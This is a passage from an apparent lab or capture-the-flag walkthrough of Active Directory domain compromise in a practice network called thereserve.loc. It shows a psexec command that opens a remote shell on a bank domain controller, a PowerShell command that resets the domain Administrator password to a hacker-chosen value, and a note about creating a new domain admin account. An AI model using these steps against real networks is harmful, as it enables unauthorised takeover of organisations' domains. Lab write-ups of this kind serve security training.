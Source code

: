 You've submitted your ticket on ROOTDC, so here you can also authenticate with BANKDC domain, becuase a two-way trust is a relationship established between both domains.

## Come back to CORPDC

C:\Users\Administrator>`exit`

![[Authenticate with BANKDC.BANK.THERESERVE.LOC from host CORPDC-20240612150446037.webp]]

On the CORPDC powershell run:
PS C:\Users\Administrator>`.\psexec.exe \\bankdc.bank.thereserve.loc cmd.exe -accepteula`

![[Authenticate with BANKDC.BANK.THERESERVE.LOC from host CORPDC-20240612140109795.webp]]

### Change the administrator password for ROOTDC

C:\Windows\system32>`powershell.exe -c Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString -AsPlainText "Hacker@123" -Force) -Reset`

rdp into ROOTDC with the new creds.. created a domain admin user for BankDC. Rdp into BankDC.
